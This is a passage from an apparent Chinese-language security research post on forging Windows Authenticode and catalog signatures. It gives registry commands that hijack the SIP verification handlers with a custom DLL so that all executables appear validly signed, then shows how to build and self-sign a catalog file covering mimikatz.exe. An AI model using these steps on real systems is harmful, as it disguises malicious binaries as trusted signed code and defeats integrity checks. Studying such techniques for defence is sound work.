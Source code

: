 如果替换exe文件的校验，即`CryptSIPDllVerifyIndirectData`和`CryptSIPDllGetSignedDataMsg`，命令如下：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\test\MySIP.dll" /f
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "AutoApproveHash" /f

REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\test\MySIP.dll" /f
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "GetLegitMSSignature" /f
```

重启explorer.exe，所有的exe文件都包含hash为：`018B222E21FBB2952304D04D1D87F736ED46DEA4`的签名

特别的地方：**伪造的签名来自于cat文件，但是会以Authenticode签名的格式显示，通过文件属性能够看到签名信息(这是Authenticode签名的特性，catalog签名不具有该特性)**

同样，修改原工程能够实现针对特定PE文件的签名伪造，方法不再赘述

## 0x04 针对cat文件的签名伪造方法
---

如果对所有.cat文件的签名验证过程进行替换，再将其添加到安全编录数据库中，那么，包含catalog签名的PE文件是否也随即获得伪造签名呢？

下面开始测试：

新建文本文档cat.txt，内容如下：

```
[CatalogHeader]
Name=makecat1.cat
[CatalogFiles]
<hash>ExeFile1=mimikatz.exe

```

**注：**

txt文件尾部需要一个空行，否则，在接下来的操作会报错，提示文件无法找到

使用makecat.exe生成makecat1.cat：

```
makecat -v cat.txt
```

为makecat1.cat添加伪造的Authenticode签名：

```
signtool sign /f certtest.pfx /p 123456 makecat1.cat
```

**注：**

certtest.pfx不能使用之前手动生成的证书，不能加参数： `-eku 1.3.6.1.5.5.7.3.3`，否则exe文件的catalog签名将会校验失败

生成certtest.pfx的操作如下：

```
makecert -n "CN=Microsoft Windows Test1" -r -sv certtest.pvk certtest.cer
cert2spc certtest.cer certtest.spc
pvk2pfx -pvk certtest.pvk -pi 123456 -spc certtest.spc -pfx certtest.pfx -f
```
